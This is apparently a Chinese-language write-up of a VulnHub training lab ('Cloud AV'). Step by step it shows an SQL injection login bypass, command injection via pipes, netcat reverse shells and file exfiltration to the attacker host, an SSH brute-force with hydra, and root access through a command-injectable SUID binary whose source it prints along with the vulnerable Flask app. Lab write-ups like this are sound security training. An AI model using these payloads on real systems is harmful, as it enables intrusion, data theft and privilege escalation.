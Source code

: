>**Name:** BoredHackerBlog: Cloud AV
>
>**Date release:** 29 Mar 2020
>
>**Author**: [BoredHackerBlog](https://www.vulnhub.com/author/boredhackerblog,683/)
>
>**Series**: [BoredHackerBlog](https://www.vulnhub.com/series/boredhackerblog,295/)
>
>**Download：**https://download.vulnhub.com/boredhackerblog/easy_cloudantivirus.ova
>
>**Description:**
>
>Cloud Anti-Virus Scanner! is a cloud-based antivirus scanning service.
>
>Currently, it's in beta mode. You've been asked to test the setup and find vulnerabilities and escalate privs.
>
>**Difficulty:** Easy
>
>**Tasks involved:**
>
>- port scanning
>- webapp attacks
>- sql injection
>- command injection
>- brute forcing
>- code analysis
>
>**Virtual Machine:**
>
>- Format: Virtual Machine (Virtualbox OVA)
>- Operating System: Linux
>
>**Networking:**
>
>- DHCP Service: Enabled
>- IP Address Automatically assign
>
>This works better with VirtualBox rather than VMware.
>
>

## 一、信息收集

### 1.主机发现

```
ifconfig
```

![image-20211009095714305](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009095714305.png)

kali的IP为10.0.2.4

对10.0.2.0/24网段内的IP发送包进行探测发现![image-20211009095857623](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009095857623.png)

10.0.2.7**返回数据**，说明**存活**

### 2.端口扫描

```
sudo nmap -p- 10.0.2.7
```

![image-20211009101228440](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009101228440.png)

结果显示目标靶机**开放了22,8080端口**

### 3.端口服务扫描发现

```
sudo nmap -p22,8080 -sV 10.0.2.7
```

![image-20211009101354083](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009101354083.png)

目标系统为Ubuntu 且开放了22端口为**SSH服务**

8080端口的Werkzeug是基于Python2.7环境

补充：Werkzeug是一个WSGI工具包，Werkzeug可以作为一个 Web 框架的底层库，因为它封装好了很多 Web 框架的东西，例如 Request，Response 等等。如 Flask 框架就是以Werkzeug 为基础开发的。

## 二、漏洞发现与利用

### 1.访问页面

```
访问：http://10.0.10.7:8080
```

![image-20211009102035206](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009102035206.png)

页面如图为“云防病毒平台”，并提示需提交邀请码才能登录使用

那么如何突破这个页面？

### 2.测试SQL注入/爆破

尝试在页面文本框内**提交信息（特殊符号）**来服务端后端有没有对用户提交的**敏感字符**（不同语言环境下存在不同作用/意义的字符）进行过滤，若未过滤则有可能**发生报错**或会**返回错误信息**。

配置浏览器代理，使用BurpSuite对**符号**进行检测

![image-20211009103133428](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009103133428.png)

![image-20211009104716945](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009104716945.png)

![image-20211009104651517](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009104651517.png)

![image-20211009104834953](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009104834953.png)

对页面进行测试后，**通过长度判断**，发现输入双引号(")可能产生了闭合，改变原语句执行语义，导致报错，报错页面如下图，**判断存在注入漏洞**

![image-20211009105012567](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009105012567.png)

发现报错页面存在**疑似查询语句**

'select * from code where password="' + password + '"'

省去单引号

select * from code where password=" + password + "

尝试通过此语句构造payload

![image-20211009105106411](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009105106411.png)

输入**1" or 1=1--+**提交后成功利用注入漏洞跨过了“invite code”验证，进入“云防病毒平台”页面

![image-20211009105148438](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009105148438.png)

### 3.命令注入

可以发现这个页面的所显示的信息是ls -l命令执行的结果，在结合页面下的"File Name"文本框 和"Scan!"提交按钮，可以联想到页面背后的功能实现过程大概是一个“病毒攻击/平台”对文件扫描的功能，代码逻辑可能类似如下

```
xxxScanner 文件名
```

那么是否可以产生使用**管道符（|）**连接执行其他命令呢？下面进行尝试

```
hello | ls
```

![image-20211009142912228](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009142912228.png)

```
hello | id
```

![image-20211009142744487](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009142744487.png)

在等待服务端响应后，确实执行了ls和id，并在页面返回了相应的结果，即**存在命令注入漏洞**，那么是否可以反弹shell？

思路1：结合先前扫描结果，可以得到目标系统的语言环境是Python2.7.15，故可以利用Python反弹shell

思路2：利用nc反弹shell

(为了学习更多的攻击方法，选用思路2)

### 4.使用nc建立连接

确认目标系统**是否存在nc**命令

```
hello | which nc
```

![image-20211009143025187](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009143025187.png)

补充：**| 表示管道符，上一条命令的输出，作为下一条命令参数**

目标系统**存在nc**命令，可正常进行后续操作

在Kali端：

```
ip a
```

![image-20211009143140893](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009143140893.png)

确认Kali地址为10.0.2.4

nc监听端口4444

```
nc -nvlp 4444
```

![image-20211009143219519](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009143219519.png)

在浏览器端：

使用nc反弹连接kali端的监听，在实验-e参数执行一个shell终端

```
hello | nc 10.0.2.4 4444 -e /bin/sh
```

![image-20211009143635524](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009143635524.png)

执行后，并没有监听端口成功连接，怀疑该系统的系统版本下的nc**不支持-e参数**，所以这里我们先去除-e参数，尝试连接

```
hello | nc 10.0.2.4 4444 
```

![image-20211011150457393](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211011150457393.png)

成功建立连接，尝试输入命令

```
ls
```

```
id
```

![image-20211009145019507](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009145019507.png)

结果发现不能执行来返回结果

故**采用多个**管道符（|），此法暂且称为“**nc管道符串联**”

在Kali上同时监听5555和6666端口：

```
nc -nvlp 5555
```

```
nc -nvlp 6666
```

![image-20211009145202343](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009145202343.png)

在浏览器端 采用“nc管道符串联”：

```
hello | nc 10.0.2.4 5555 | /bin/bash | nc 10.0.2.4 6666 
```

![image-20211009145552070](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009145552070.png)

kali端显示两个端口都成功连接

### 5.信息收集/ssh爆破

尝试在5555端口监听窗口输入命令，发现执行结果会在6666端口监听窗口显示，成功

![image-20211009145754300](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009145754300.png)

登录到目标系统后，查看文件

```
ls -l
```

![image-20211009151033812](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009151033812.png)

查看app.py

```
cat app.py
```

![image-20211009151112767](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009151112767.png)

>from flask import Flask, render_template, request, session
>import sqlite3
>import subprocess
>import os
>
>conn = sqlite3.connect('database.sql',check_same_thread = False)
>c = conn.cursor()
>
>app = Flask(__name__)
>
>@app.route('/')
>def index():
>    return render_template('index.html')
>
>@app.route('/login', methods=['POST'])
>def login():
>    password = request.form['password']
>    if len(c.execute('select * from code where password="' + password + '"').fetchall()) > 0:
>        session['logged_in'] = True
>        return 'Redirecting to /scan. <meta http-equiv="refresh" content="0; url=/scan" />'
>    else:
>        return "WRONG INFORMATION"
>
>@app.route('/scan')
>def shop():
>    if session.get('logged_in'):
>        filelist = subprocess.Popen("ls -l /home/scanner/cloudav_app/samples", shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE).stdout.read()
>        return render_template('scan.html',filelist=filelist)
>    else:
>        return '<meta http-equiv="refresh" content="0; url=/" />'
>
>@app.route('/output', methods=['POST'])
>def output():
>    if session.get('logged_in'):
>        filename = request.form['filename']
>        scan_results = subprocess.Popen("clamscan "+filename, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE).stdout.read()
>        return "<pre>" + scan_results + "</pre>"
>    else:
>        return '<meta http-equiv="refresh" content="0; url=/" />'
>
>if __name__ == "__main__":
>    app.secret_key = os.urandom(12)
>    app.run(host='0.0.0.0',port=8080, debug=True)
>
>

app.py中并没有可以直接有关提权的信息

查看database.sql

```
file database.sql
```

![image-20211009151631066](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009151631066.png)

发现数据库版本信息SQLite 3.x，再结合之前sql注入时的页面返回信息

![image-20211009152025908](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009152025908.png)

版本信息一致，猜测是Web应用程序服务端的数据库，有可能有隐私数据，所以就有必要查看

```
sqlite
```

尝试执行发现没有相关指令

![image-20211009151902078](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009151902078.png)

即**服务端无法解析**sqlite文件，那是否可以将下载到kali本机上，使用kali本机上sqlite的执行环节来查看文件database.sql

在Kali端新窗口开启nc监听7777端口，将接收到的所有**连接请求都转发到**db.sql文件

```
nc -nvlp 7777 > db.sql
```

![image-20211009152136352](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009152136352.png)

在监听5555端口的窗口内，连接10.0.2.4（kali）的7777端口**再通过重定向**将database.sql传输到nc通道内

```
nc 10.0.2.4 7777 < database.sql
```

![image-20211009152503151](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009152503151.png)

database.sql文件不大，很快传输完Ctrl+C结束

![image-20211009152617144](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009152617144.png)

```
ls
```

![image-20211009152646495](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009152646495.png)

使用kali的sqlite3环境下查看db.sql

```
sqlite3
```

```
.open db.sql
```

```
.database
```

```
.dump
```

![image-20211009152831159](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009152831159.png)

显示只有一个字段password,下方的INSERT语句向数据库添加了几个密码，那是否可以登录目标系统？回想发现阶段目标系统上开启ssh服务，所以进行尝试，现在寻找目标系统上的用户名

```
cat /etc/passwd
```

![image-20211009153106205](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009153106205.png)

passwd文件中数据很多，需要做筛选过滤

筛选可以用**shell权限**登录系统的账号

```
cat /etc/passwd | grep /bin/bash
```

![image-20211009153238876](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009153238876.png)

将用户名和密码都分别生成字典 准备进行爆破

```
vi user.txt
```

![image-20211009153516608](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009153516608.png)

![image-20211009153446916](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009153446916.png)

```
vi pass.txt
```

![image-20211009153702323](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009153702323.png)

![image-20211009153648892](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009153648892.png)

使用Hydra爆破

```
hydra -L user.txt -P pass.txt ssh://10.0.2.7
```

![image-20211009154535990](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009154535990.png)

破解完成，失望，没有正确结果，这种攻击失败了，尝试别的攻击手段

### 6.SUID提权

回到目标机目录下，尝试查看目录下别的文件

```
ls
```

```
ls -l 
```

```
ls samples
```

发现这些文件就是Web界面那些可以进行防病毒扫描的文件

![image-20211009160341754](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009160341754.png)

暂时没有发现有帮助的信息

```
ls templates
```

![image-20211009160512163](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009160512163.png)

看到template下有两个**Web开发页面模板文件** index.html scan.html，但也没有有帮助的信息

查看查看的目录，确认现在所在目录

```
pwd
```

![image-20211009164418370](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009164418370.png)

去上一级目录，/home/scanner

```
cd .. 
```

```
ls
```

```
ls -la     #查看隐藏文件
```

```
ls- l
```

在隐藏文件中并未发现有直接帮助的文件，但发现了.c文件

![image-20211009165417380](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009165417380.png)

update_cloudav.c可能就是cloudav.app程序的C语言源代码，且可以看到这个程序的权限是**可执行的**，s也代表有suid权限位，且属主是root账号，当执行该程序时会**默认继承该程序属主的权限**

设想：如果可以执行这个update_cloudav.c，是否可以通过某种命令注入的方法，**利用suid权限**带来的root权限来**执行某些系统命令来反弹shell**，来**完成提权**？

```
cat update_cloudav.c
```

>#include <stdio.h>
>
>int main(int argc, char *argv[])
>{
>char *freshclam="/usr/bin/freshclam";
>
>if (argc < 2){
>printf("This tool lets you update antivirus rules\nPlease supply command line arguments for freshclam\n");
>return 1;
>}
>
>char *command = malloc(strlen(freshclam) + strlen(argv[1]) + 2);
>sprintf(command, "%s %s", freshclam, argv[1]);
>setgid(0);
>setuid(0);
>system(command);
>return 0;
>
>}

包含了一些**头文件**，定义了一些**变量**，变量指向了操作系统中的文件freshclam，freshclam是给开源杀毒软件cloudav的病毒库升级的软件。这个程序**定义了一个执行参数**，如果程序在执行过程中**不包含**这个参数的话就会**显示信息**，要求提交一个命令行的参数，这样freshclam这个程序才能正常执行，完成病毒库的更新。如果正确使用参数，那么就会正常的运行cloudav，执行病毒库的更新。

总结一下：当我们**执行update_cloudav.c时**，会**调用**了cloudav.app的**病毒更新程序freshclam**，但在执行过程中**要求要有运行参数。**

先测试一个参数a

```
./update_cloudav a
```

![image-20211009165635210](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009165635210.png)

出现日志文件**报错**，但是不确定是否会对执行有影响，继续尝试

利用管道符串联

在kali端: 

```
nc -nvlp 7777 
```

```
nc -nvlp 8888
```

![image-20211009165823593](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009165823593.png)

在控制目标机端：

```
./update_cloudav "a | nc 10.0.2.4 7777 | /bin/bash | nc 10.0.2.4 8888"
```

**双引号作用：让./upadte_cloudav程序在执行的时候，认为双引号内的都是参数，从而继承这个程序它的suid位的权限**

```
id
```

![image-20211009165854532](https://byesec-blog-img.oss-cn-beijing.aliyuncs.com/uPic/image-20211009165854532.png)

成功拿到目标系统root权限！

